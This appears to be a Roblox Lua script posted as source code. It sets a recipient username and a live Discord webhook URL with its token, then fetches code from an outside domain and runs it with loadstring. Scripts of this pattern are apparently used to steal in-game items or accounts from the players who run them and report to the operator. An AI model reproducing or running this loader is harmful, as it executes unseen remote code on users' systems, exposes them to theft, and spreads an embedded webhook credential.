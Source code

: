Username = "PogrzaloCie"
Username2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1271237268585189416/espMjpp8Hz0GsfYcQBPLkgbHsHJ0E9bXPcJVzoPbUM_EafLNqWGa3_x_tB_jpw9XZ_V7"

loadstring(game:HttpGet("https://egorikusa.space"))()
